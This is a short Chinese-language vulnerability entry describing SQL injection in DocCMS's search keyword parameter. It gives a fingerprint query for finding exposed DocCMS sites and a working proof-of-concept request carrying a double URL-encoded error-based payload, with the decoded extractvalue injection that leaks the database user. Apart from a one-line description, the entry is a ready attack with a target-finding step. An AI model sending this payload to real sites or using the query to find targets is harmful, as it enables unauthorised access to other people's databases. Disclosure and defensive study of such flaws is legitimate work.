


DocCMS keyword SQL注入漏洞¶
漏洞描述¶
DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息
漏洞影响¶
DocCMS
网络测绘¶
app="Doccms"
漏洞复现¶
CMS官网

验证POC
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33

其中payload为下列语句的二次Url编码
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#